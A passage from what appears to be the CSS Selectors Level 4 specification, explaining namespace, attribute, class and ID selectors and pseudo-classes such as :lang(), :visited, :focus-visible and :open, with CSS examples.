Unless an element is featureless, the presence of a universal selector has no effect on whether the element matches the selector. (Featureless elements do not match any selector, including the universal selector.)

> **Example:** - `*[hreflang|=en]` and `[hreflang|=en]` are equivalent,
> - `*.warning` and `.warning` are equivalent,
> - `*#myid` and `#myid` are equivalent.

The universal selector follows the same syntax rules as other type selectors: only one can appear per compound selector, and it must be the first simple selector in the compound selector.

> **Note:** In some cases, adding a universal selector can make a selector easier to read, even though it has no effect on the matching behavior. For example, `div :first-child` and `div:first-child` are somewhat difficult to tell apart at a quick glance, but writing the former as `div *:first-child` makes the difference obvious.

#### 5.3.  Namespaces in Elemental Selectors {#selectors-4:type-nmsp}

Type selectors and universal selectors allow an optional namespace component: a namespace prefix that has been previously declared may be prepended to the element name separated by the namespace separator “vertical bar” (`|` U+007C). (See, e.g., [XML-NAMES] for the use of namespaces in XML.) It has the following meaning in each form:

**`ns|E`**

: elements with name E in namespace ns

**`*|E`**

: elements with name E in any namespace, including those without a namespace

**`|E`**

: elements with name E without a namespace

**`E`**

: if no default namespace has been declared for selectors, this is equivalent to *|E. Otherwise it is equivalent to ns|E where ns is the default namespace.

> **Example:** CSS examples:
>
> ```
> @namespace foo url(http://www.example.com);
> foo|h1 { color: blue }  /* first rule */
> foo|* { color: yellow } /* second rule */
> |h1 { color: red }      /* ...*/
> *|h1 { color: green }
> h1 { color: green }
> ```
>
> The first rule (not counting the `@namespace` at-rule) will match only h1 elements in the "http://www.example.com" namespace.
>
> The second rule will match all elements in the "http://www.example.com" namespace.
>
> The third rule will match only h1 elements with no namespace.
>
> The fourth rule will match h1 elements in any namespace (including those without any namespace).
>
> The last rule is equivalent to the fourth rule because no default namespace has been defined.

If a default namespace is declared, compound selectors without type selectors in them still only match elements in that default namespace.

> **Example:** For example, in the following style sheet:
>
> ```
> @namespace url("http://example.com/foo");
>
> .special { ... }
> ```
>
> The `.special` selector only matches elements in the "http://example.com/foo" namespace, even though no reference to the type name (which is paired with the namespace in the DOM) appeared.

A type selector or universal selector containing a namespace prefix that has not been previously declared is an invalid selector.

#### 5.4.  The Defined Pseudo-class: `:defined` {#selectors-4:the-defined-pseudo}

In some host languages, elements can have a distinction between being “defined”/“constructed” or not. The **:defined** pseudo-class matches elements that are fully defined, as dictated by the host language.

If the host language does not have this sort of distinction, all elements in it match `:defined`.

> **Example:** In HTML, all built-in elements are always considered to be defined, so the following example will always match:
>
> ```
> p:defined { ... }
> ```
>
> Custom elements, on the other hand, start out *un*defined, and only become defined when properly registered. This means the `:defined` pseudo-class can be used to hide a custom element until it has been registered:
>
> ```
> custom-element { visibility: hidden }
> ```
>
> ```
> custom-element:defined { visibility: visible }
> ```

### 6.  Attribute selectors {#selectors-4:attribute-selectors}

Selectors allow the representation of an element’s attributes. When a selector is used as an expression to match against an element, an **attribute selector** must be considered to match an element if that element has an attribute that matches the attribute represented by the attribute selector.

> **Issue:** Add comma-separated syntax for [multiple-value matching](http://lists.w3.org/Archives/Public/www-style/2011Mar/0215.html)? e.g. [rel ~= next, prev, up, first, last]

#### 6.1.  Attribute presence and value selectors {#selectors-4:attribute-representation}

CSS2 introduced four attribute selectors:

**`[att]`**

: Represents an element with the `att` attribute, whatever the value of the attribute.

**`[att=val]`**

: Represents an element with the `att` attribute whose value is exactly "val".

**`[att~=val]`**

: Represents an element with the `att` attribute whose value is a whitespace-separated list of words, one of which is exactly "val". If "val" contains whitespace, it will never represent anything (since the words are *separated* by spaces). Also if "val" is the empty string, it will never represent anything.

**`[att|=val]`**

: Represents an element with the `att` attribute, its value either being exactly "val" or beginning with "val" immediately followed by "-" (U+002D). This is primarily intended to allow language subcode matches (e.g., the `hreflang` attribute on the a element in HTML) as described in BCP 47 ([BCP47]). For `lang` (or `xml:lang`) language subcode matching, please see the `:lang()` pseudo-class.

Attribute values must be `<ident-token>`s or `<string-token>`s. [CSS3SYN]

> **Example:** s:
>
> The following attribute selector represents an h1 element that carries the `title` attribute, whatever its value:
>
> ```
> h1[title]
> ```
>
> In the following example, the selector represents a span element whose `class` attribute has exactly the value "example":
>
> ```
> span[class="example"]
> ```
>
> Multiple attribute selectors can be used to represent several attributes of an element, or several conditions on the same attribute. Here, the selector represents a span element whose `hello` attribute has exactly the value "Cleveland" and whose `goodbye` attribute has exactly the value "Columbus":
>
> ```
> span[hello="Cleveland"][goodbye="Columbus"]
> ```
>
> The following CSS rules illustrate the differences between "=" and "~=". The first selector would match, for example, an a element with the value "copyright copyleft copyeditor" on a `rel` attribute. The second selector would only match an a element with an `href` attribute having the exact value "http://www.w3.org/".
>
> ```
> a[rel~="copyright"] { ... }
> a[href="http://www.w3.org/"] { ... }
> ```
>
> The following selector represents an a element whose `hreflang` attribute is exactly "fr".
>
> ```
> a[hreflang=fr] 
> ```
>
> The following selector represents an a element for which the value of the `hreflang` attribute begins with "en", including "en", "en-US", and "en-scouse":
>
> ```
> a[hreflang|="en"] 
> ```
>
> The following selectors represent a DIALOGUE element whenever it has one of two different values for an attribute `character`:
>
> ```
> DIALOGUE[character=romeo]
> DIALOGUE[character=juliet]
> ```

#### 6.2.  Substring matching attribute selectors {#selectors-4:attribute-substrings}

Three additional attribute selectors are provided for matching substrings in the value of an attribute:

**`[att^=val]`**

: Represents an element with the `att` attribute whose value begins with the prefix "val". If "val" is the empty string then the selector does not represent anything.

**`[att$=val]`**

: Represents an element with the `att` attribute whose value ends with the suffix "val". If "val" is the empty string then the selector does not represent anything.

**`[att*=val]`**

: Represents an element with the `att` attribute whose value contains at least one instance of the substring "val". If "val" is the empty string then the selector does not represent anything.

Attribute values must be `<ident-token>`s or `<string-token>`s.

> **Example:** s: The following selector represents an HTML object element, referencing an image:
>
> ```
> object[type^="image/"] 
> ```
>
> The following selector represents an HTML a element with an `href` attribute whose value ends with ".html".
>
> ```
> a[href$=".html"] 
> ```
>
> The following selector represents an HTML paragraph with a `title` attribute whose value contains the substring "hello"
>
> ```
> p[title*="hello"] 
> ```

#### 6.3.  Case-sensitivity {#selectors-4:attribute-case}

By default case-sensitivity of attribute names and values in selectors depends on the document language.

To match attribute values ASCII case-insensitively regardless of document language rules, the attribute selector may include the identifier **i** before the closing bracket (`]`). When this flag is present, UAs must match the attribute’s value ASCII case-insensitively (i.e. [a-z] and [A-Z] are considered equivalent).

> **Example:** For example, ASCII case insensitivity allows `green` to match `GREEN`. However, `grün` would not match `GRÜN`.

Alternately, the attribute selector may include the identifier **s** before the closing bracket (`]`); in this case the UA must match the value case-sensitively, with “identical to” semantics [INFRA], regardless of document language rules.

Like the rest of Selectors syntax, the `i` and `s` identifiers themselves are ASCII case-insensitive.

> **Example:** The following rule will style the `frame` attribute when it has a value of `hsides`, whether that value is represented as `hsides`, `HSIDES`, `hSides`, etc. even in an XML environment where attribute values are case-sensitive.
>
> ```
> [frame=hsides i] { border-style: solid none; } 
> ```

> **Example:** The following rule will style lists with `type="a"` attributes differently than `type="A"` even though HTML defines the `type` attribute to be case-insensitive.
>
> ```
> [type="a" s] { list-style: lower-alpha; }
> [type="A" s] { list-style: upper-alpha; }
> ```

> **Note:** Some document models normalize case-insensitive attribute values at parse time such that checking if a string is case-sensitive matching is impossible. Case-sensitive matching via `s` flags is only possible in systems that preserve the original case.

#### 6.4.  Attribute selectors and namespaces {#selectors-4:attrnmsp}

The attribute name in an attribute selector is given as a CSS qualified name: a namespace prefix that has been previously declared may be prepended to the attribute name separated by the namespace separator "vertical bar" (`|`). In keeping with the Namespaces in the XML recommendation, default namespaces do not apply to attributes, therefore attribute selectors without a namespace component apply only to attributes that have no namespace (equivalent to `|attr`). An asterisk may be used for the namespace prefix indicating that the selector is to match all attribute names without regard to the attribute’s namespace.

An attribute selector with an attribute name containing a namespace prefix that has not been previously declared is an invalid selector.

> **Example:** CSS examples:
>
> ```
> @namespace foo "http://www.example.com";
> [foo|att=val] { color: blue }
> [*|att] { color: yellow }
> [|att] { color: green }
> [att] { color: green }
> ```
>
> The first rule will match only elements with the attribute `att` in the "http://www.example.com" namespace with the value "val".
>
> The second rule will match only elements with the attribute `att` regardless of the namespace of the attribute (including no namespace).
>
> The last two rules are equivalent and will match only elements with the attribute `att` where the attribute is not in a namespace.

#### 6.5.  Default attribute values in DTDs {#selectors-4:def-values}

Attribute selectors represent attribute values in the document tree. How that document tree is constructed is outside the scope of Selectors. In some document formats default attribute values can be defined in a DTD or elsewhere, but these can only be selected by attribute selectors if they appear in the document tree. Selectors should be designed so that they work whether or not the default values are included in the document tree.

For example, a XML UA may, but is *not* required to, read an “external subset” of the DTD, but *is* required to look for default attribute values in the document’s “internal subset”. (See, e.g., [XML10] for definitions of these subsets.) Depending on the UA, a default attribute value defined in the external subset of the DTD might or might not appear in the document tree.

A UA that recognizes an XML namespace may, but is not required to use its knowledge of that namespace to treat default attribute values as if they were present in the document. (For example, an XHTML UA is not required to use its built-in knowledge of the XHTML DTD. See, e.g., [XML-NAMES] for details on namespaces in XML 1.0.)

> **Note:** Typically, implementations choose to ignore external subsets. This corresponds to the behavior of non-validating processors as defined by the XML specification.

> **Example:** Consider an element `EXAMPLE` with an attribute `radix` that has a default value of `"decimal"`. The DTD fragment might be
>
> ```
> <!ATTLIST EXAMPLE radix (decimal,octal) "decimal"> 
> ```
>
> If the style sheet contains the rules
>
> ```
> EXAMPLE[radix=decimal] { /*... default property settings ...*/ }
> EXAMPLE[radix=octal]   { /*... other settings...*/ }
> ```
>
> the first rule might not match elements whose `radix` attribute is set by default, i.e. not set explicitly. To catch all cases, the attribute selector for the default value must be dropped:
>
> ```
> EXAMPLE                { /*... default property settings ...*/ }
> EXAMPLE[radix=octal]   { /*... other settings...*/ }
> ```
>
> Here, because the selector `EXAMPLE[radix=octal]` is more specific than the type selector alone, the style declarations in the second rule will override those in the first for elements that have a `radix` attribute value of `"octal"`. Care has to be taken that all property declarations that are to apply only to the default case are overridden in the non-default cases' style rules.

#### 6.6.  Class selectors {#selectors-4:class-html}

The **class selector** is given as a full stop (. U+002E) immediately followed by an identifier. It represents an element belonging to the class identified by the identifier, as defined by the document language. For example, in [HTML], [SVG11], and [MATHML] membership in a class is given by the `class` attribute: in these languages it is equivalent to the `~=` notation applied to the local `class` attribute (i.e. `[class~=identifier]`).

> **Example:** CSS examples:
>
> We can assign style information to all elements with `class~="pastoral"` as follows:
>
> ```
> *.pastoral { color: green }  /* all elements with class~=pastoral */ 
> ```
>
> or just
>
> ```
> .pastoral { color: green }  /* all elements with class~=pastoral */ 
> ```
>
> The following assigns style only to H1 elements with `class~="pastoral"`:
>
> ```
> H1.pastoral { color: green }  /* H1 elements with class~=pastoral */ 
> ```
>
> Given these rules, the first `H1` instance below would not have green text, while the second would:
>
> ```
> <H1>Not green</H1>
> <H1 class="pastoral">Very green</H1>
> ```
>
> The following rule matches any P element whose `class` attribute has been assigned a list of whitespace-separated values that includes both `pastoral` and `marine`:
>
> ```
> p.pastoral.marine { color: green } 
> ```
>
> This rule matches when `class="pastoral blue aqua marine"` but does not match for `class="pastoral blue"`.

> **Note:** Because CSS gives considerable power to the "class" attribute, authors could conceivably design their own "document language" based on elements with almost no associated presentation (such as div and span in HTML) and assigning style information through the "class" attribute. Authors should avoid this practice since the structural elements of a document language often have recognized and accepted meanings and author-defined classes may not.

> **Note:** If an element has multiple class attributes, their values must be concatenated with spaces between the values before searching for the class. As of this time the working group is not aware of any manner in which this situation can be reached, however, so this behavior is explicitly non-normative in this specification.

When matching against a document which is in quirks mode, class names must be matched ASCII case-insensitively; class selectors are otherwise case-sensitive, only matching class names they are identical to. [INFRA]

#### 6.7.  ID selectors {#selectors-4:id-selectors}

Document languages may contain attributes that are declared to be of type ID. What makes attributes of type ID special is that no two such attributes can have the same value in a conformant document, regardless of the type of the elements that carry them; whatever the document language, an ID typed attribute can be used to uniquely identify its element. In HTML all ID attributes are named `id`; XML applications may name ID attributes differently, but the same restriction applies. Which attribute on an element is considered the “ID attribute” is defined by the document language.

An **ID selector** consists of a “number sign” (U+0023, `#`) immediately followed by the ID value, which must be a CSS [identifier](#css2:value-def-identifier). An ID selector represents an element instance that has an identifier that matches the identifier in the ID selector. (It is possible in non-conforming documents for multiple elements to match a single ID selector.)

> **Example:** s: The following ID selector represents an h1 element whose ID-typed attribute has the value "chapter1":
>
> ```
> h1#chapter1 
> ```
>
> The following ID selector represents any element whose ID-typed attribute has the value "chapter1":
>
> ```
> #chapter1 
> ```
>
> The following selector represents any element whose ID-typed attribute has the value "z98y".
>
> ```
> *#z98y 
> ```

> **Note:** In XML 1.0 [XML10], the information about which attribute contains an element’s IDs is contained in a DTD or a schema. When parsing XML, UAs do not always read the DTD, and thus may not know what the ID of an element is (though a UA may have namespace-specific knowledge that allows it to determine which attribute is the ID attribute for that namespace). If a style sheet author knows or suspects that a UA may not know what the ID of an element is, they should use normal attribute selectors instead: `[name=p371]` instead of `#p371`.

If an element has multiple ID attributes, all of them must be treated as IDs for that element for the purposes of the ID selector. Such a situation could be reached using mixtures of xml:id, DOM3 Core, XML DTDs, and namespace-specific knowledge.

When matching against a document which is in quirks mode, IDs must be matched ASCII case-insensitively; ID selectors are otherwise case-sensitive, only matching IDs they are identical to. [INFRA]

### 7.  Linguistic Pseudo-classes {#selectors-4:linguistic-pseudos}

#### 7.1.  The Directionality Pseudo-class: `:dir()` {#selectors-4:the-dir-pseudo}

The **:dir()** pseudo-class allows the author to write selectors that represent an element based on its directionality as determined by the document language. For example, [HTML] defines [how to determine the directionality of an element](https://html.spec.whatwg.org/multipage/dom.html#the-directionality), based on a combination of the `dir` attribute, the surrounding text, and other factors. As another example, the `its:dir` and `dirRule` element of the Internationalization Tag Set [ITS20] are able to define the directionality of an element in [XML10].

The `:dir()` pseudo-class does not select based on stylistic states—for example, the CSS `direction` property does not affect whether it matches.

The pseudo-class `:dir(ltr)` represents an element that has a directionality of left-to-right (`ltr`). The pseudo-class `:dir(rtl)` represents an element that has a directionality of right-to-left (`rtl`). The argument to `:dir()` must be a single identifier, otherwise the selector is invalid. White space is optionally allowed between the identifier and the parentheses. Values other than `ltr` and `rtl` are not invalid, but do not match anything. (If a future markup spec defines other directionalities, then Selectors may be extended to allow corresponding values.)

The difference between `:dir(C)` and `[dir=C]` is that `[dir=C]` only performs a comparison against a given attribute on the element, while the `:dir(C)` pseudo-class uses the UAs knowledge of the document’s semantics to perform the comparison. For example, in HTML, the directionality of an element inherits so that a child without a `dir` attribute will have the same directionality as its closest ancestor with a valid `dir` attribute. As another example, in HTML, an element that matches `[dir=auto]` will match either `:dir(ltr)` or `:dir(rtl)` depending on the resolved directionality of the elements as determined by its contents. [HTML]

#### 7.2.  The Language Pseudo-class: `:lang()` {#selectors-4:the-lang-pseudo}

If the document language specifies how the (human) content language of an element is determined, it is possible to write selectors that represent an element based on its content language. The **:lang()** pseudo-class, which accepts a comma-separated list of one or more language ranges, represents an element whose content language is one of the languages listed in its argument. Each **language range** in `:lang()` is an [extended language range](https://www.rfc-editor.org/rfc/rfc4647.html#section-2.2), as defined in BCP 47, and must be a valid CSS `<ident>` or `<string>`. (Thus language ranges containing asterisks, for example, must be either correctly escaped or quoted as strings, e.g. `:lang(\*-Latn)` or `:lang("*-Latn")`.)

> **Note:** The content language of an element is defined by the document language.

For example, in HTML [HTML], the content language is determined by a combination of the `lang` attribute, information from meta elements, and possibly also the protocol (e.g. from HTTP headers). XML languages can use the `xml:lang` attribute to indicate language information for an element. [XML10]

The element’s content language matches a language range if its content language, as represented in BCP 47 syntax, matches the given language range in an *extended filtering* operation per [RFC4647] Matching of Language Tags (section 3.3.2). The content language and the language range must be *canonicalized* and converted to *extlang form* as per section 4.5 of [RFC5646] prior to the *extended filtering* operation; language tags or ranges that are not [valid](https://www.w3.org/TR/i18n-glossary/#dfn-valid) do not match anything. The matching is performed ASCII case-insensitively.

The language range must be an extended language range according to BCP47. Language ranges that are not [well-formed](https://www.w3.org/TR/i18n-glossary/#dfn-well-formed) language tags or which would not be a well-formed language tag if an initial wildcard character "*" were replaced with a valid subtag, do not match anything.

> **Example:** For example,
>
> ```css
> :lang(åå)
> ```
>
> would not match, because it containins non-ASCII characters so is ill-formed.
>
> On the other hand,
>
> ```css
> :lang(qq)
> ```
>
> could match, even though qq is not a registered language code.

For this purpose, a wildcard language range (`"*"`) does not match elements whose language is not tagged (e.g. `lang=""`), but does match elements whose language is tagged as undetermined (`lang=und`). A language range consisting of an empty string (`:lang("")`) matches (only) elements whose language is not tagged.

> **Note:** It is recommended that documents and protocols indicate language using language tags from [BCP47], and in the case of XML-based formats, by means of `xml:lang` attributes. [XML10] See [“Choosing a Language Tag”](https://www.w3.org/International/questions/qa-choosing-language-tags)

> **Example:** s: The two following selectors represent an HTML document that is in Belgian French or German. The two next selectors represent q quotations in an arbitrary element in Belgian French or German.
>
> ```
> html:lang(fr-be)
> html:lang(de)
> :lang(fr-be) > q
> :lang(de) > q
> ```

> **Note:** One difference between `:lang(C)` and the `|=` operator is that the `|=` operator only performs a comparison against a given attribute on the element, while the `:lang(C)` pseudo-class uses the UAs knowledge of the document’s semantics to perform the comparison.

> **Example:** In this HTML example, only the BODY matches `[lang|=fr]` (because it has a LANG attribute) but both the BODY and the P match `:lang(fr)` (because both are in French). The P does not match the `[lang|=fr]` because it does not have a LANG attribute.
>
> ```
> <body lang=fr>
>   <p>Je suis français.</p>
> </body>
> ```

> **Example:** Another difference between `:lang(C)` and the `|=` operator is that `:lang(C)` performs implicit wildcard matching.
>
> For example, `:lang(de-DE)` will match all of `de-DE`, `de-DE-1996`, `de-Latn-DE`, `de-Latf-DE`, `de-Latn-DE-1996`, whereas of those `[lang|=de-DE]` will only match `de-DE` and `de-DE-1996`.
>
> To perform wildcard matching on the first subtag (the primary language), an asterisk must be used: `*-CH` will match all of `de-CH`, `it-CH`, `fr-CH`, and `rm-CH`.
>
> To select against an element’s lang attribute value using this type of language range match, use both the attribute selector and language pseudo-class together, e.g. `[lang]:lang(de-DE)`.

> **Note:** Wildcard language matching and comma-separated lists are new in Level 4.

### 8.  Location Pseudo-classes {#selectors-4:location}

#### 8.1.  The Hyperlink Pseudo-class: `:any-link` {#selectors-4:the-any-link-pseudo}

The **:any-link** pseudo-class represents an element that acts as the source anchor of a hyperlink. For example, in [HTML], any `a` or `area` elements with an `href` attribute are hyperlinks, and thus match `:any-link`. It matches an element if the element would match either `:link` or `:visited`, and is equivalent to `:is(:link, :visited)`.

#### 8.2.  The Link History Pseudo-classes: `:link` and `:visited` {#selectors-4:link}

User agents commonly display unvisited [hyperlinks](#selectors-4:the-any-link-pseudo) differently from previously visited ones. Selectors provides the pseudo-classes **:link** and **:visited** to distinguish them:

- The `:link` pseudo-class applies to links that have not yet been visited.
- The `:visited` pseudo-class applies once the link has been visited by the user.

The two states are mutually exclusive.

After some amount of time, user agents may choose to return a visited link to the (unvisited) `:link` state.

The `:visited` pseudo-class comes with obvious privacy implications—​letting random websites know what *other* websites you’ve visited can be problematic for a number of reasons—​and so user agents *must* preserve user privacy in their implementation of `:visited`.

> **Note:** This specification intentionally does not specify exactly how to preserve user privacy in this regard, to allow for user agents to innovate in this space. The following methods are suggested, however:
>
> - Have `:visited` never match, so all links match `:link` instead.
> - Carefully track what history entries could have been observed by a given origin on their own, and only have links match `:visited` if that visit would have been observable from the site’s origin. A possible specific approach for this is described in [Appendix C: Example Privacy-Preserving :visited Restrictions](#selectors-4:visited-privacy).
> - Allow links to match `:visited` on any origin, but carefully restrict what styles they can apply and what information is returned by style-querying APIs like `getComputedStyle()`, to prevent sites from observing whether a link is styled with `:link` or `:visited`. (This is documented at [MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/Privacy_and_the_:visited_selector), and was the historical approach browsers took, but is not perfect; there are several ways for a hostile page to still extract history information.)

> **Example:** For example, the selector `.footnote:visited` would allow styling footnote links differently if they’ve been previously followed, allowing users of the page to know they might not need to click the footnote again.

#### 8.3.  The Target Pseudo-class: `:target` {#selectors-4:the-target-pseudo}

In some document languages, the document’s URL can further point to specific elements *within* the document via the URL’s fragment. The elements pointed to in this way are the target elements of the document.

> **Example:** In HTML the fragment points to the element in the page with the same ID. The url `https://example.com/index.html#section2`, for example, points to the element with `id="section2"` in the document at `https://example.com/index.html`.

The **:target** pseudo-class matches the document’s target elements. If the document’s URL has no fragment identifier, then the document has no target elements.

> **Example:** ```
> p.note:target 
> ```
>
> This selector represents a `p` element of class `note` that is the target element of the referring URL.

> **Example:** CSS example: Here, the `:target` pseudo-class is used to make the target element red and place an image before it, if there is one:
>
> ```
> :target { color : red }
> :target::before { content : url(target.png) }
> ```

> **Note:** This specification previously defined a `:target-within` pseudo-class, analogous to `:focus-within`. It was removed in favor of `:has(:target)`, which should hopefully suffice to solve the same use-cases.

#### 8.4.  The Reference Element Pseudo-class: `:scope` {#selectors-4:the-scope-pseudo}

In some contexts, selectors are matched with respect to one or more scoping roots, such as when calling the `querySelector()` method in [DOM]. The **:scope** pseudo-class represents this scoping root, and may be either a true element or a virtual one (such as a `DocumentFragment`).

If there is no scoping root then `:scope` represents the root of the tree the element is in (equivalent to `:host` in a shadow tree, or `:root` otherwise). Specifications intending for this pseudo-class to match specific elements rather than this tree root element must define their scoping root(s).

A virtual scoping root is some object representing the root of a document fragment, and can be used in selector patterns to represent other elements’ relationships to this scoping root, acting as the parent of any root elements in the document fragment it represents. A virtual scoping root is featureless and cannot be the subject of the selector.

> **Example:** For example, if you have a `DocumentFragment` `df`, then `df.querySelectorAll(":scope > .foo")` matches all the `.foo` elements that are "top-level" in the document fragment (those that have the document fragment as their `parentNode`).
>
> However, `df.querySelector(":scope")` will not match anything, as the document fragment itself can’t be the subject of the selector.

### 9.  User Action Pseudo-classes {#selectors-4:useraction-pseudos}

Interactive user interfaces sometimes change the rendering in response to user actions. Selectors provides several **user action pseudo-classes** for the selection of an element the user is acting on. (In non-interactive user agents, these pseudo-classes are valid, but never match any element.)

The user action pseudo-classes are not mutually exclusive. An element can match several such pseudo-classes at the same time.

> **Example:** s:
>
> ```
> a:hover   /* user hovers over the link */
> a:focus   /* user focuses the link     */
>
> a:focus:hover
> /* user hovers over the link while it's focused */
> ```

Some user action pseudo-classes, in addition to matching on the particular element with the property in question, match on that element’s ancestors as well: `:hover`, `:active`, `:focus-within`. Specifically, if these match on a given element, they also match on the element’s flat tree ancestors, up to and including the first top layer element or the root element, whichever is encountered first.

> **Note:** The specifics of hit-testing, necessary to know when several of the pseudo-classes defined in this section apply, are not yet defined, but will be in the future.

#### 9.1.  The Pointer Hover Pseudo-class: `:hover` {#selectors-4:the-hover-pseudo}

The **:hover** pseudo-class applies while the user designates an element (or pseudo-element) with a pointing device, but does not necessarily activate it. For example, a visual user agent could apply this pseudo-class when the cursor (mouse pointer) hovers over a box generated by the element. Interactive user agents that cannot detect hovering due to hardware limitations (e.g., a pen device that does not detect hovering) are still conforming; the selector will simply never match in such a UA.

An element also matches `:hover` if one of its descendants in the flat tree (including non-element nodes, such as text nodes) matches the above conditions.

Document languages may define additional ways in which an element can match `:hover`. For example, [HTML] defines a labeled control element as [matching `:hover`](https://html.spec.whatwg.org/multipage/semantics-other.html#selector-hover) when its label is hovered.

> **Note:** Since the `:hover` state can apply to an element because its child is designated by a pointing device, it is possible for `:hover` to apply to an element that is not underneath the pointing device.

#### 9.2.  The Activation Pseudo-class: `:active` {#selectors-4:the-active-pseudo}

The **:active** pseudo-class applies while an element is being “activated” by the user, as defined by the host language; for example, while a hyperlink is being triggered.

In addition, the `:active` pseudo-class applies while any generated box of *any* element (or pseudo-element) is being actively indicated by a pointing device (in the “down” state), e.g. between the time the user presses the primary mouse button and releases it, or while a finger is pressing on a touchscreen.

> **Note:** [HTML] defines  [specific conditions for HTML elements to be activated](https://html.spec.whatwg.org/multipage/semantics-other.html#selector-active) .

An element also matches `:active` if one of its descendants in the flat tree (including non-element nodes, such as text nodes) matches the above conditions.

#### 9.3.  The Input Focus Pseudo-class: `:focus` {#selectors-4:the-focus-pseudo}

The **:focus** pseudo-class applies while an element (or pseudo-element) has the focus (accepts keyboard or other forms of input).

There may be document language or implementation specific limits on which elements can acquire `:focus`. For example, [HTML] defines a list of [focusable areas](https://html.spec.whatwg.org/multipage/interaction.html#focusable-area).

Document languages may define additional ways in which an element can match `:focus`, except that the `:focus` pseudo-class must not automatically propagate to the parent element—​see `:focus-within` if matching on the parent is desired. (`:focus` may still apply to the parent element if made to propagate due to other mechanisms, but not merely due to being the parent.)

> **Issue:** There’s a desire from authors to propagate `:focus` from a form control to its associated `label` element; the main objection seems to be implementation difficulty. See [CSSWG issue (CSS)](https://github.com/w3c/csswg-drafts/issues/397) and [WHATWG issue (HTML)](https://github.com/whatwg/html/issues/1632).

#### 9.4.  The Focus-Indicated Pseudo-class: `:focus-visible` {#selectors-4:the-focus-visible-pseudo}

While the `:focus` pseudo-class always matches the currently-focused element, UAs only sometimes visibly **indicate focus** (such as by drawing a “focus ring”), instead using a variety of heuristics to visibly indicate the focus only when it would be most helpful to the user. The **:focus-visible** pseudo-class matches a focused element (or pseudo-element) in these situations only, allowing authors to change the appearance of the focus indicator without changing *when* a focus indicator appears.

> **Example:** In this example, all focusable elements get a strong yellow outline on `:focus-visible`, and links get both a yellow outline and a yellow background on `:focus-visible`. These styles are consistent throughout the page and are easily visible due to their bold styling, but do not appear unless the user is likely to need to understand where page focus is.
>
> ```
> :root {
>   --focus-gold: #ffbf47;
> }
>
> :focus-visible  {
>   outline: 3px solid var(--focus-gold);
> }
>
> a:focus-visible {
>   background-color: var(--focus-gold);
> }
> ```

> **Example:** User agents can choose their own heuristics for when to indicate focus; however, the following (non-normative) suggestions can be used as a starting point for when to indicate focus on the currently focused element:
>
> - If the user has expressed a preference (such as via a system preference or a browser setting) to always see a visible focus indicator, indicate focus regardless of any other factors. (Another option may be for the user agent to show its own focus indicator regardless of author styles.)
> - If the element supports keyboard input (such as an `input` element, or any other element that would triggers a virtual keyboard to be shown on focus if a physical keyboard were not present), indicate focus.
> - If the user interacts with the page via keyboard or some other non-pointing device, indicate focus. (This means keyboard usage may change whether this pseudo-class matches even if it doesn’t affect `:focus`).
> - If the user interacts with the page via a pointing device (mouse, touchscreen, etc.) and the focused element does not support keyboard input, don’t indicate focus.
> - If the previously-focused element indicated focus, and a script causes focus to move elsewhere, indicate focus on the newly focused element.
>
>   Conversely, if the previously-focused element did not indicate focus, and a script causes focus to move elsewhere, don’t indicate focus on the newly focused element.
> - If a newly-displayed element automatically gains focus (such as an action button in a freshly opened dialog), that element should indicate focus.

User agents should also use `:focus-visible` to specify the default focus style, so that authors using `:focus-visible` will not also need to disable the default `:focus` style.

#### 9.5.  The Focus Container Pseudo-class: `:focus-within` {#selectors-4:the-focus-within-pseudo}

The **:focus-within** pseudo-class applies to any element (or pseudo-element) for which the `:focus` pseudo-class applies, as well as to an element (or pseudo-element) whose descendant in the flat tree (including non-element nodes, such as text nodes) matches the conditions for matching `:focus`.

### 10.  Resource State Pseudo-classes {#selectors-4:resource-pseudos}

The pseudo-classes in this section apply to elements that represent loaded resources, particularly images/videos, and allow authors to select them based on some quality of their state.

#### 10.1.  Media Playback State: the `:playing`, `:paused`, and `:seeking` pseudo-classes {#selectors-4:video-state}

The **:playing** pseudo-class represents an element that is capable of being “played” or “paused”, when that element is “playing”. (This includes both when the element is explicitly playing, and when it’s temporarily stopped for some reason not connected to user intent, but will automatically resume when that reason is resolved, such as a “buffering” or “stalled” state.)

The **:paused** pseudo-class represents an element that is capable of being “played” or “paused”, when that element is “paused” (i.e. *not* ”playing”). (This includes both an explicit “paused” state, and other non-playing states like “loaded, hasn’t been activated yet”, etc.)

The **:seeking** pseudo-class represents an element that is capable of ”seeking” when that element is ”seeking”. (For the `audio` and `video` elements of HTML, see [HTML § 4.8.11.9 Seeking](https://html.spec.whatwg.org/multipage/media.html#seeking).)

#### 10.2.  Media Loading State: the `:buffering` and `:stalled` pseudo-classes {#selectors-4:media-loading-state}

The **:buffering** pseudo-class represents an element that is capable of being “played” or “paused”, when that element cannot continue playing because it is actively attempting to obtain media data but has not yet obtained enough data to resume playback. (Note that the element is still considered to be “playing” when it is “buffering”. Whenever `:buffering` matches an element, `:playing` also matches the element.)

The **:stalled** pseudo-class represents an element when that element cannot continue playing because it is actively attempting to obtain media data but it has failed to receive any data for some amount of time. For the `audio` and `video` elements of HTML, this amount of time is the media element stall timeout. [HTML] (Note that, like with the `:buffering` pseudo-class, the element is still considered to be “playing” when it is “stalled”. Whenever `:stalled` matches an element, `:playing` also matches the element.)

#### 10.3.  Sound State: the `:muted` and `:volume-locked` pseudo-classes {#selectors-4:sound-state}

The **:muted** pseudo-class represents an element that is capable of making sound, but is currently “muted“ (forced silent). (For the `audio` and `video` elements of HTML, see muted. [HTML])

The **:volume-locked** pseudo-class represents an element that is capable of making sound, and currently has its volume "locked" by the UA or the user, so the page author cannot change it. (For the `audio` and `video` elements of HTML, see the algorithm for setting the element’s effective media volume. [HTML])

### 11.  Element Display State Pseudo-classes {#selectors-4:display-state-pseudos}

#### 11.1.  Collapse State: the `:open` pseudo-class {#selectors-4:open-state}

The **:open** pseudo-class represents an element that has both “open” and “closed” states, and which is currently in the “open” state.

Exactly what “open” and “closed” mean is host-language specific, but exemplified by elements such as HTML’s `details`, `select`, `dialog`, and `input` elements, all of which can be toggled “open” to display more content (or any content at all, in the case of `dialog`).

> **Note:** Being “open” or “closed” is a semantic state. An element not currently being displayed (for example, one that has `visibility: collapse`, or belongs to a `display: none` subtree) can still be “open” and will match `:open`.

> **Note:** A ":closed" pseudo-class might be added in the future once the full set of things that support `:open` is known.

#### 11.2.  Popover State: the `:popover-open` pseudo-class {#selectors-4:popover-open-state}

The **:popover-open** pseudo-class represents an element that has both “popover-showing” and “popover-hidden” states and which is currently in the “popover-showing” state.

